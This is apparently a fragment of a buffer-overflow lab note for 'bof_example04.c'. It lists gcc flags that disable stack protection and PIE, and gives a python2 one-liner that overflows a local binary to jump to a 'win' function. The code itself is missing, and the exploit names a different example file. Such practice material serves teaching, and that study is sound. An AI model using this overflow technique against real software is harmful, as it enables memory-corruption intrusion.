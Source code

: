 # SOURCE CODE : bof_example04.c

```
[+]Compile Option
: gcc -m32 -o {} {} -mpreferred-stack-boundary=2 -z execstac -no-pie -fno-stack-protector -static 

[+]Exploit
python2 -c "print 'a'*72 + {win function address}" | ./bof_example03

```
